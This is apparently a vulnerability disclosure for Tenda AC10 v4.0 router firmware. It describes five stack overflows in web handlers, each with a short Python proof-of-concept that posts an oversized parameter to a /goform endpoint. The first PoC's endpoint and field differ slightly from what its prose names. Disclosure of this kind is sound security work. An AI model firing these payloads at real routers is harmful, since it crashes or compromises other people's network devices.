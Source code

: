 # Overview



- Firmware download website: https://www.tendacn.com/download/detail-4789.html

# Affected version



AC10v4.0 CE  Firmware V16.03.10.09 which is latest

![image-20240705143523966](C:\Users\PC123\AppData\Roaming\Typora\typora-user-images\image-20240705143523966.png)

# Vulnerability details

**All experiments were conducted under AC10v4.0 CE Firmware V16.03.10.09**

## stack overflow vulnerability

### 1.in setSchedWifi function

the schedEndTime parameter is not restricted



![image-20240705143617895](C:\Users\PC123\AppData\Roaming\Typora\typora-user-images\image-20240705143617895.png)

```
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/openSchedWifi"
payload = b"a"*1000

data = {"schedWifiEnable":0,"schedStartTime": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240705143753793](C:\Users\PC123\AppData\Roaming\Typora\typora-user-images\image-20240705143753793.png)



### 2.in saveParentControlInfo function

The issue involves both the `deviceId` and `deviceName` parameters sharing the same storage space. Additionally, the lack of size limitation on `deviceId` has led to a stack overflow

![image-20240706153435163](C:\Users\PC123\AppData\Roaming\Typora\typora-user-images\image-20240706153435163.png)

![image-20240706153413463](C:\Users\PC123\AppData\Roaming\Typora\typora-user-images\image-20240706153413463.png)

```
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"time": "10.30","deviceId": payload,"deviceName":"shit"}
response = requests.post(url, data=data)
print(response.text)
```

### 3.in saveParentControlInfo function 

In the `saveParentControlInfo` function, `set_device_name` is not returned, allowing unrestricted setting of `deviceId`. Similarly, in the `get_parentControl_list_Info` method, insufficient size limitations on the `time` parameter result in stack overflow

![image-20240706154437870](C:\Users\PC123\AppData\Roaming\Typora\typora-user-images\image-20240706154437870.png)

![image-20240706154035704](C:\Users\PC123\AppData\Roaming\Typora\typora-user-images\image-20240706154035704.png)



![image-20240706154347065](C:\Users\PC123\AppData\Roaming\Typora\typora-user-images\image-20240706154347065.png)



```
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"time": payload,"deviceId": "payload","deviceName":"shit"}
response = requests.post(url, data=data)
print(response.text)
```

### 4.in formSetQosBand function 

In the `formSetQosBand` function, the `set_qosMib_list` function is called without size limitation on the `list` parameter, leading to a stack overflow

![image-20240706155011513](C:\Users\PC123\AppData\Roaming\Typora\typora-user-images\image-20240706155011513.png)



![image-20240706155054454](C:\Users\PC123\AppData\Roaming\Typora\typora-user-images\image-20240706155054454.png)

![image-20240706155803007](C:\Users\PC123\AppData\Roaming\Typora\typora-user-images\image-20240706155803007.png)

```
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/SetNetControlList"
payload = b"a"*2000

data = {"list": payload}
response = requests.post(url, data=data)
print(response.text)
```



### 5.in fromSetSysTime function 

In the `fromSetSysTime` function, a call to the `sub_4B2058` method uses a `timeZone` parameter without size constraints, resulting in a stack overflow

![image-20240706155532589](C:\Users\PC123\AppData\Roaming\Typora\typora-user-images\image-20240706155532589.png)

![image-20240706155557252](C:\Users\PC123\AppData\Roaming\Typora\typora-user-images\image-20240706155557252.png)



![image-20240706155420044](C:\Users\PC123\AppData\Roaming\Typora\typora-user-images\image-20240706155420044.png)

```
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/SetSysTimeCfg"
payload = b"a"*2000

data = {
        'timeType':'sync',
        'timeZone':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

